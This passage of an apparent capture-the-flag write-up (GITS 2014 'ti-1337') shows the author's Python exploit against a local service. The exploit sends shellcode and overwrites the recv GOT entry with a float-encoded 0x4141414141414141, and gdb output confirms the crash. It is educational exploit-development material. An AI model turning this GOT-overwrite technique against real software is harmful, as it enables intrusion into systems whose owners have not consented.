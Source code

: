 and my exploit:

```lang-python line-numbers 
import socket
import struct
import subprocess
import time

host = "localhost"
port = 31415

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))

cmd="/home/pwntester/Desktop/gits-2014/ti-1337/convert"
result = subprocess.check_output(cmd, shell=True)
lines = result.split("\n")
print "[+] Sending shellcode"
for line in lines:
        if line != "":
                print "[+] Sending: " + line
                s.send(line + '\n')

print "[+] Clearing Stack"
s.send('c\n')
print "[+] Popping my way to recv@got"
for i in xrange(38):
        s.send('b\n')
print "[+] Replacing recv@got with shellcode address"
s.send('2261634.5098039214499294757843017578125\n')  # 0x4141414141414141
time.sleep(1)
s.close()
```

Executing this exploit will place 41414141414141 in the GOT entry for recv() so we should get a crash:

```lang-bash line-numbers 
gdb-peda$
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x8
RBX: 0x0
RCX: 0x0
RDX: 0x1
RSI: 0x7fffffffe29f --> 0x10a
RDI: 0x8
RBP: 0x7fffffffe2b0 --> 0x7fffffffe3f0 --> 0x7fffffffe530 --> 0x7fffffffe560 --> 0x7fffffffe590 --> 0x0
RSP: 0x7fffffffe268 --> 0x401357 (mov    QWORD PTR [rbp-0x10],rax)
RIP: 0x400ad0 (<recv@plt>:  jmp    QWORD PTR [rip+0x20254a]        # 0x603020 <recv@got.plt>)
R8 : 0x0
R9 : 0x600000 ('')
R10: 0x0
R11: 0x7ffff7854b0d (ret)
R12: 0x400c90 (xor    ebp,ebp)
R13: 0x7fffffffe670 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10287 (CARRY PARITY adjust zero SIGN trap INTERRUPT direction overflow)
0x0000000000400ad0 in recv@plt ()
gdb-peda$ x/1x 0x000603020
0x603020 <recv@got.plt>:    0x4141414141414141
```
